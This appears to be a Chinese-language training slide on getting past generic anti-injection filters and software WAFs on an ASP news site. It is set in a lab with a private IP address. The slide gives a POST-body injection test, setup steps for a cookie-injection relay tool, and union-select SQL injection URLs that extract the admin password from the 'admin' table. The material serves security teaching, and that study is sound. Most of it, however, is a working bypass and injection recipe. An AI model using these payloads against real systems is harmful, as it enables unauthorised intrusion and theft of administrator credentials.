

# 通用型防注入代码绕过
1、自动防护代码
2、软甲waf
南方数据
处理方式:变换提交方式
Post提交  --注意:首先需要验证该提交方式正常情况能否执行成功
url:	http://192.168.149.130:86/news.asp？
Body : id=11 and 1=1
Cookie提交: 借助 注入中转 建议放到windows7虚拟机下运行
http://192.168.149.130:86/shownews.asp?id=5 –-源url
工具使用说明
注入键名:id=
注入URL地址为: http://192.168.149.130:86/shownews.asp
来源页: http://192.168.149.130:86/shownews.asp
Post 提交值 jmdcw=5(就是id值)
完成设置以后生成asp，覆盖，启动小旋风 点击jmdcw.asp页面，在后面添加? ?jmdcw=5  后面一切如常规手工测试
http://127.0.0.1:99/jmCook.asp?jmdcw=5 order by 11
http://127.0.0.1:99/jmCook.asp?jmdcw=5 union select 1,2,password,4,5,6,7,8,9,10,11 from admin 得到密码